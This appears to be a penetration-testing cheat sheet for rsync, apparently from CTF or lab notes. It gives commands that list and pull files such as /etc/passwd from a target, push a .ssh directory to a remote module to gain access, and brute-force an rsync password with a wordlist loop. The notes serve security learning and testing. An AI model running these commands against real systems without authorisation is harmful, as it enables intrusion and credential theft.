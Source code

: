 ```yaml
---
title: "rsync"
date: 2024-7-12
tags: ["rsync"]
---
```


---
### Basic Commands

```bash
# List directory ('/')
rsync --list-only -a rsync://10.10.11.10/
``` 

```bash
# List directory ('/') with ipv6
rsync --list-only -a rsync://[dead:beef::1234:5678:90ab:cdef]:8730/
``` 

```bash
# List a file
rsync --list-only -a rsync://10.10.11.10/etc/passwd
```

```bash
# List files (wildcard)
rsync --list-only -a rsync://10.10.11.10/etc/rsync*
```

```bash
# Get a file
rsync -a rsync://10.10.11.10/etc/passwd .
```

```bash
# Get files (wildcard)
rsync -a rsync://10.10.11.10/etc/rsync* .
```

```bash
# Copy files recusively to remote (With Creds)
export RSYNC_PASSWORD=<PASSWORD>; rsync -aR .ssh/ rsync://<USER>@10.10.11.10/home_user/
```

### Bruteforce rsync password

```bash
# Get user from /etc/passwd, Get module from /etc/rsyncrsyncd.conf (e.g. user user and module home_user)
cat passwords.txt | while read password; do export RSYNC_PASSWORD=${password}; rsync --list-only rsync://user@10.10.11.10/home_user 2>&1 | grep -q "auth failed on module home_user" || { echo "[+] Found: ${RSYNC_PASSWORD}"; break; } done
```

<br>